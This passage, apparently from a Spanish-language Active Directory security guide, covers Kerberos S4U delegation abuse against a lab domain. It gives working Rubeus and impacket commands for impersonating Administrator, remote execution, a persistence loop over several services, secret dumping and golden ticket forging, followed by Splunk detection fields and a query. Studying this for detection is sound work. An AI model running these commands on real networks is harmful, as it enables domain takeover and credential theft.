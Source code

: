 ```bash
# 7. Escalada cross-domain usando S4U
.\Rubeus.exe s4u /user:srv-cross$ /rc4:aad3b435b51404eeaad3b435b51404ee /impersonateuser:Administrator /msdsspn:LDAP/dc.external.htb /domain:soporte.htb /dc:dc.soporte.htb

# 8. Machine Account S4U abuse (si se compromete una máquina)
.\Rubeus.exe s4u /user:WORKSTATION01$ /rc4:aad3b435b51404eeaad3b435b51404ee /impersonateuser:Administrator /msdsspn:HOST/dc.soporte.htb /self

# 9. Usar ticket obtenido para acceso privilegiado
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-wmiexec -k -no-pass soporte.htb/Administrator@db.soporte.htb

# 10. Persistence usando S4U hacia múltiples servicios
for service in CIFS HOST LDAP HTTP; do
    getST.py -spn $service/dc.soporte.htb -impersonate Administrator soporte.htb/srv-sql$ -hashes :aad3b435b51404eeaad3b435b51404ee -out $service.ccache
done

# 11. Golden ticket creation using LDAP access
impacket-secretsdump -k -no-pass soporte.htb/Administrator@dc.soporte.htb
impacket-ticketer -nthash a9fdfa038c4b75ebc76dc855dd74f0da -domain-sid S-1-5-21-... -domain soporte.htb Administrator
```

---

## 📊 Detección en logs y SIEM (Splunk)

| Campo clave                     | Descripción                                                                  |
|---------------------------------|------------------------------------------------------------------------------|
| **EventCode = 4769**            | Solicitudes TGS con patrones S4U específicos (opciones 0x40810010 y 0x40810000). |
| **EventCode = 4770**            | Renovación de tickets de servicio que pueden indicar persistencia S4U.        |
| **EventCode = 4624**            | Logons de red usando tickets S4U con patrones de tiempo específicos.          |
| **ServiceName patterns**        | Secuencias de servicios (self→target) que indican flujo S4U2Self→S4U2Proxy.   |
| **CommandLine/Image (Sysmon)**  | Procesos como Rubeus.exe con parámetros /s4u, /self, /bronzebit, getST.py.    |

### Query Splunk: Detección de flujo S4U2Self→S4U2Proxy

```splunk
index=wineventlog EventCode=4769
| search TicketOptions="0x40810010" OR TicketOptions="0x40810000"
| eval S4UType=case(TicketOptions="0x40810010", "S4U2Self", TicketOptions="0x40810000", "S4U2Proxy", 1=1, "Unknown")
| sort _time
| streamstats count by TargetUserName, IpAddress reset_after="S4UType=\"S4U2Self\""
| where S4UType="S4U2Proxy" AND count > 1
| table _time, TargetUserName, ServiceName, IpAddress, S4UType
```
